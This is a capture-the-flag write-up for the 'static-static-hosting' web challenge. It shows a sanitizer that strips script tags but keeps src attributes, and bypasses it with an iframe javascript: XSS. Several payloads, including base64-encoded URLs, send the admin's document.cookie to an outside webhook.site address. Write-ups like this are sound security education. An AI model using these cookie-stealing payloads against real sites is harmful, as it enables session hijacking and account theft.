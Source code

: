 # static-static-hosting 

## Problem

```
Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here

Site: static-static-hosting.2020.redpwnc.tf

Note: The site is entirely static. Dirbuster will not be useful in solving it.
```

## Solution

Similar to [static-pastebin](./static-pastebin.md), we are given a [hosting website](https://static-static-hosting.2020.redpwnc.tf/) 
and an another [admin bot website](https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting) which visits any 
URL it is given.

Even though the hosting website prompts us to submit HTML, we submit a random word anyway. It is accepted, so we go on to check the
the [background source](files/static-static-hosting/script.js) for this site.

```javascript
function clean(input) {
    const template = document.createElement('template');
    const html = document.createElement('html');
    template.content.appendChild(html);
    html.innerHTML = input;

    sanitize(html);

    const result = html.innerHTML;
    return result;
}

function sanitize(element) {
    const attributes = element.getAttributeNames();
    for (let i = 0; i < attributes.length; i++) {
        // Let people add images and styles
        if (!['src', 'width', 'height', 'alt', 'class'].includes(attributes[i])) {
            element.removeAttribute(attributes[i]);
        }
    }

    const children = element.children;
    for (let i = 0; i < children.length; i++) {
        if (children[i].nodeName === 'SCRIPT') {
            element.removeChild(children[i]);
            i --;
        } else {
            sanitize(children[i]);
        }
    }
}
```
Sanitisation is a bit more complicated now. As seen from `sanitise()`, we cannot use `script` tags and attribute types are 
limited to `'src', 'width', 'height', 'alt', 'class'` now.

We try using the same method from static-pastebin to see if it works on this challenge. This time, we try using `<iframe>`
tags as their `src` attribute could trigger Javascript. Our test payload on the hosting site:
```javascript
<iframe src="javascript:alert(123)"></iframe>
```

![](images/statichost3.PNG)

This works! so we can reuse the same plan from static-pastebin to conduct an XSS and grab the admin cookie.

Payload:
```javascript
<iframe src="javascript:document.location='//webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c='+document.cookie"></iframe>
```

Base64 encode the payload, append it to the back of the URL template (this time it is `https://static-static-hosting.2020.redpwnc.tf/site/#`):
```
https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6ZG9jdW1lbnQubG9jYXRpb249Jy8vd2ViaG9vay5zaXRlLzE3ZWEwM2ZkLTliZGYtNGM4MC1hOWIxLThlNGVlODhjZDcyZj9jPScrZG9jdW1lbnQuY29va2llIj48L2lmcmFtZT4=
```

Submit the resulting URL to the admin bot, and the request data will be sent to our webhook site, where we can view the flag.

![](images/statichost_flag.PNG)

**Flag**: `flag{wh0_n33d5_d0mpur1fy}`


---

**NTS:** Using `assign` member works as well:
```javascript
<iframe src="javascript:window.location.assign(`https://webhook.site/17ea03fd-9bdf-4c80-a9b1-8e4ee88cd72f?c=${document.cookie}`)"></iframe>

https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6d2luZG93LmxvY2F0aW9uLmFzc2lnbihgaHR0cHM6Ly93ZWJob29rLnNpdGUvMTdlYTAzZmQtOWJkZi00YzgwLWE5YjEtOGU0ZWU4OGNkNzJmP2M9JHtkb2N1bWVudC5jb29raWV9YCkiPjwvaWZyYW1lPg==
```

&nbsp;

#### References

* https://owasp.org/www-community/xss-filter-evasion-cheatsheet
